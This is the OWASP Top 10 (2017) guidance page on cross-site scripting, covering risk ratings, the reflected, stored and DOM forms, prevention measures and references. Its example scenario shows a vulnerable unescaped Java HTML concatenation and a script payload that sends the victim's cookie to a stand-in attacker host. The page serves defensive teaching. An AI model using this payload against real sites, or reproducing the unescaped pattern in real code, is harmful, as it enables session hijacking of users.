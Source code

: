 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability 3 | Prevalence 3 \| Detectability 3 | Technical 2 \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Am I Vulnerable to XSS?

Three are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: Your app or API includes unvalidated and  unescaped user input as part of HTML output or there is no content security policy ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)) header. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with a link, or some other attacker controlled page, such as a watering hole attack, malvertizing, or similar.
* **Stored XSS**: Your app or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single page apps, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DIV replacement or defacement (such as trojan login DIVs), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

## How Do I Prevent This?

Preventing XSS requires separation of untrusted data from active browser content.

* Use safer frameworks that automatically escape for XSS by design, such as in Ruby on Rails or React.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense in depth mitigating control against XSS, assuming no other vulnerabilities exist that would allow placing malicious code via local file include such as path traversal overwrites, or vulnerable libraries in permitted sources, such as content delivery network or local libraries. 

## Example Attack Scenario

**Scenario 1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the 'CC’ parameter in the browser to:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note that attackers can use XSS to defeat any automated CSRF defense the application might employ. 

## References

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### External

* [CWE-79 Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
